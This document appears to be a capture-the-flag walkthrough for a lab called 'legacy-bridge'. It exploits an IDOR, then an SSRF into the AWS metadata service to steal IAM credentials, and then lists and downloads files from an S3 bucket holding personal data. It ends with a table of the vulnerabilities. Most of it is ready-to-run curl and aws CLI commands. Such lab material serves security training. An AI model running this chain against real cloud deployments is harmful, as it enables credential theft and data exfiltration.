

# legacy-bridge - Walkthrough

## Exploitation Route



## Summary

1. **Step 1 - IDOR Enumeration**. Enumerate all customer data using file_id parameter
2. **Step 2 - API Response Analysis**. Discover internal_source field and test SSRF parameter
3. **Step 3 - SSRF to Extract Role Name**. Force v1 API to access IMDS using source parameter
4. **Step 4 - IMDSv1 Credential Theft**. Obtain AWS temporary credentials
5. **Step 5 - Credential Validation & IAM Permission Check**. Verify stolen credential permissions
6. **Step 6 - S3 Data Exfiltration**. Download sensitive customer data

## Detailed Walkthrough

### Step 1: IDOR Enumeration

Access the gateway URL to see the following portal.


Set the gateway URL as an environment variable.

```bash
GW=http://<gateway-ip>
```

Verify the API portal is working normally.

```bash
curl -s $GW/api/v5/status
```

Enumerate all customer data by changing the file_id parameter.

```bash
curl -s "$GW/api/v5/legacy/media-info?file_id=1"
curl -s "$GW/api/v5/legacy/media-info?file_id=2"
curl -s "$GW/api/v5/legacy/media-info?file_id=3"
```

Examine each response to discover.
- `customer_name`. Customer name
- `application_id`. Application ID
- `file_name`. File name
- `internal_source`. v1 backend URL (example: `http://10.10.2.X/api/v1/...`)

---

### Step 2: API Response Analysis

The `internal_source` field in Step 1 responses exposes **v1 backend URLs**. This signals that the API processes these URLs.

Considering common web API patterns, functionality that fetches external resources typically uses parameters like `source=`, `url=`, or `fetch=`. The response field name `internal_source` suggests a GET parameter `source=` may exist.

**Test the source parameter.**

```bash
curl -s "$GW/api/v5/legacy/media-info?file_id=1&source=http://example.com"
```

Analyzing the response shows that the `backend_response` field returns **example.com's content**. This means the v5 portal is forwarding the source parameter directly to the v1 backend.

**This is an SSRF vulnerability.** You can force the v5 portal to access arbitrary URLs.

---

### Step 3: SSRF to Extract Role Name

Use the source parameter to force IMDS access.

```bash
curl -s "$GW/api/v5/legacy/media-info?file_id=1&source=http://169.254.169.254/latest/meta-data/iam/security-credentials/"
```

Extract the role name from the `backend_response` field (format: `legacy-bridge-Shadow-API-Role-<SUFFIX>`).

---

### Step 4: IMDSv1 Credential Theft

Request temporary credentials using the extracted role name.

```bash
ROLE="legacy-bridge-Shadow-API-Role-<SUFFIX>"

curl -s "$GW/api/v5/legacy/media-info?file_id=1&source=http://169.254.169.254/latest/meta-data/iam/security-credentials/$ROLE"
```

Extract credentials from the `backend_response` field.
- `AccessKeyId`
- `SecretAccessKey`
- `Token`
- `Expiration`

---

### Step 5: Credential Validation & IAM Permission Check

Set the stolen credentials as environment variables.

```bash
export AWS_ACCESS_KEY_ID="<AccessKeyId>"
export AWS_SECRET_ACCESS_KEY="<SecretAccessKey>"
export AWS_SESSION_TOKEN="<Token>"
export AWS_DEFAULT_REGION="us-east-1"
```

Verify the credentials are valid.

```bash
aws sts get-caller-identity
```

Check the IAM policies for this role.

```bash
aws iam list-role-policies --role-name legacy-bridge-Shadow-API-Role-<SUFFIX>
```

Get the policy details.

```bash
aws iam get-role-policy --role-name legacy-bridge-Shadow-API-Role-<SUFFIX> --policy-name <policy-name>
```

---

### Step 6: S3 Data Exfiltration

List accessible S3 buckets.

```bash
aws s3 ls
```

Identify the target bucket (`prime-pii-vault-*`) and examine its structure.

```bash
BUCKET="<prime-pii-vault-XXXX>"

aws s3 ls s3://$BUCKET/
```

Explore each directory.

```bash
aws s3 ls s3://$BUCKET/applications/
aws s3 ls s3://$BUCKET/confidential/
```

Download the flag file.

```bash
aws s3 cp s3://$BUCKET/confidential/breach_notice.txt -
```

The flag is included in the output.

---

## Key Vulnerabilities

| Stage | Vulnerability | Description |
|-------|----------------|-------------|
| 1 | IDOR | No access control - all customer data exposed |
| 2 | SSRF Discovery | No URL filtering - arbitrary URL access possible |
| 3 | SSRF Exploitation | IMDSv1 metadata service access |
| 4 | IMDSv1 | No token validation - credentials exposed |
| 5 | Excessive IAM Permissions | Shadow-API-Role has full bucket read permissions |
| 6 | Lack of Monitoring | Anomalous access undetected |